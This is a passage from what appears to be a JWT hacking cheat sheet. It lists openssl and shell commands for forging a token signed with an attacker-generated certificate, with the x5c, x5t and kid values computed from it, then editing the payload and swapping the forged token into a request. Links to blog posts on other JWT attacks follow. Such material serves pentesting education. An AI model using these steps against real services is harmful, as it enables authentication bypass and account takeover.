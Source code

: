 ```python
		"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
5. Extracting RSA public key parameters (n and e) from the generated certificate
		"openssl x509 -in attacker.crt -text"
6. Converting modulus (n) to base64-encoded hexadecimal strings
		"echo "Modules (n) value will be here"| sed ‘s/://g’ | base64 | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’ | sed ‘s/=//g’"
7. Converting exponent (e) to base64-encoded hexadecimal strings
		"echo "exponent (e) here" | base64 | sed ‘s/=//g’"
8. Finding the new x5c value
		"cat attacker.crt | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’"
9. Copy the contents excluding the — -BEGINCERTIFICATE — — and — — ENDCERTIFICATE — — part.
8. Finding the new x5t value
		"echo -n $(openssl x509 -in attacker.crt -fingerprint -noout) | sed ‘s/SHA1 Fingerprint=//g’ | sed ‘s/://g’ | base64 | sed ‘s/=//g’"
* Note: The kid parameter would also get the same value as x5t parameter.
9. Creating a forged token using all the parameters calculated in the previous step.
10. Visit https://jwt.io and paste the token retrieved in Step 3 in the “Encoded” section.
11. Paste the X.509 certificate (attacker.crt) and the private key (attacker.key) in their respective places in the “Decoded” section.
12. Manipulate Payload section and copy the forged token
13. Replace the forged token in the request and forward. Done!!

```

### Other Attacks:

****Key Database Mismanagement****

[Hacking JWT Tokens: Key Database Mismanagement](https://blog.pentesteracademy.com/hacking-jwt-tokens-key-database-mismanagement-58cec7769120)

****Verification Key Mismanagement****

[Hacking JWT Tokens: Verification Key Mismanagement](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-1b69c89ffdfb)

[Hacking JWT Tokens: Verification Key Mismanagement II](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-ii-12ca82674850)

[Hacking JWT Tokens: Verification Key Mismanagement III](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-iii-7581805f4d58)

[Hacking JWT Tokens: Verification Key Mismanagement IV](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-iv-582601f9d8ac)

****Vulnerable Key Generator****

[Hacking JWT Tokens: Vulnerable Key Generator](https://blog.pentesteracademy.com/hacking-jwt-tokens-vulnerable-key-generator-aff412d8d84d)

****Transaction Replay****

[Hacking JWT Tokens: Transaction Replay](https://blog.pentesteracademy.com/hacking-jwt-tokens-transaction-replay-56f449c2e0d0)
